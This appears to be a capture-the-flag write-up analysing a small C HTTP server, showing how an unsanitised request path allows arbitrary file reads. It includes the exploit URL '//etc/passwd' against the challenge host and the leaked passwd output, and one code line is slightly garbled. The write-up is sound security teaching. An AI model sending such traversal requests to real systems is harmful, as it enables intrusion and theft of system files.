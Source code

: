 

### :mag_right: Vulnerability hunting

Now that we have a good understanding of the program, we can change our mindset to an attacker one, and try to see if we can search for some vulnerabilities in this code.



**Arbitrary file read**

Let's start by the most obvious one.

Inside the `get` function, when the resource is opened using `open`, no sanitizing is done on the request `path` at any step.

This allows us to provide an arbitrary path and escape the "webroot" of the HTTP server.

Inside the `route` function, `path + 1` is passed to `get`, which contains our request path from the second character.

```c
if(0 == strcasecmp of(method, "GET"))
    return get(fp, req, path + 1);
```

The `get` request then happily opens the requested path : 

```c
int fd = open(path, O_RDONLY);
if(fd < 0) {
    resp_404(fp);
    return true;
}
```

 This means that if we provide a path such as this `//etc/passwd`, we can effectively obtain the content of the file.

Let's try this remotely : `http://http2.france-cybersecurity-challenge.fr:2106//etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf:/bin/sh
pwned:x:1001:1001::/home/pwned:/bin/sh
```
